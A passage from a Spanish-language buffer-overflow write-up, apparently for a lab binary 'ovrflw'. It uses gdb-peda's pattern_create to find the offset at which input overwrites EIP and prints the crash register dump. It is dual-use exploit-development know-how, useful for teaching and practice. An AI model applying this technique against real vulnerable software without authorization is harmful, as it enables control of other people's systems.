 Como podemos ver, el programa nos manda la leyenda *Segmentation fault* y vemos que los registros `ebp` y `eip` han cambiado su valor por la cadena que le introducimos "*A - (0x41)*". Por lo tanto, necesitamos saber cual es el límite antes de cambiar los registros; ésto lo podemos lograr con el comando `pattern_create` desde `peda`:

 ```bash
gdb-peda$ pattern_create 500
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
gdb-peda$
 ```

Ahora copiamos la cadena obtenida y la pasamos como argumento:

```bash
gdb-peda$ r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8A
ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A
%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA
%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'  
Starting program: /usr/local/bin/ovrflw 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5
AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%n
A%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%R
A%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsI
AseAs4AsJAsfAs5AsKAsgAs6A'                                                                                                       
                                                                                                                                 
Program received signal SIGSEGV, Segmentation fault.                                                                             
[----------------------------------registers-----------------------------------]                                                 
EAX: 0x0 
EBX: 0xb7783000 --> 0x1abda8 
ECX: 0xbfcdfe70 ("As5AsKAsgAs6A")
EDX: 0xbfcddc73 ("As5AsKAsgAs6A")
ESI: 0x0 
EDI: 0x0 
EBP: 0x6941414d ('MAAi')
ESP: 0xbfcddb00 ("ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8"...)
EIP: 0x41384141 ('AA8A')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41384141
[------------------------------------stack-------------------------------------]
0000| 0xbfcddb00 ("ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8"...)
0004| 0xbfcddb04 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA"...)
```